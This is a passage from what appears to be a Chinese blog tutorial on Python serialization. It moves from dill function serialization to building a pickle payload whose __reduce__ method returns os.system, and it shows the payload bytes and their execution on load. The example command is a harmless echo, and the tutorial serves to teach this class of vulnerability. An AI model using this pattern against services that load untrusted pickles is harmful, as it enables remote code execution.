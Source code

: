 ```python
```
同理也可以使用**types.classobj**来定义类，不过没必要。

到这，Dill可以登场了，Dill集合了动态定义函数的步骤，直接可以使用，只支持python3
```python
import dill

def echo():
    print("Playwi0's blog url is http://www.playwi0.cn")

s = dill.dumps(echo)
dill.loads(s)()
```
输出
```text
Playwi0's blog url is http://www.playwi0.cn
```
---
### 任意代码执行
Pickle允许任意对象去定义一个__reduce__方法来申明怎么序列化这个对象。任意代码就重这里开始。

看一下reduce怎么用
```python
reduce(function, iterable[, initializer])
```
构造恶意类
```python
import cPickle,os

class Test(object):
    name = 'playwi0'
    gender = 'boy'
    def __reduce__(self):
        return os.system,('echo playwi0',)

test = Test()
s = cPickle.dumps(test)
print s
```
输出可以看到name，gender这些变量全没了，只剩__reduce__中的了
```pickle
cposix
system
p1
(S'echo playwi0'
p2
tp3
Rp4
.
```
反序列化执行
```python
cPcikle.loads(s)
```
输出
```python
playwi0
```
如果开头没有**import os**也是可以执行的，因为cPickle.loads会自动尝试引入未引入的module。

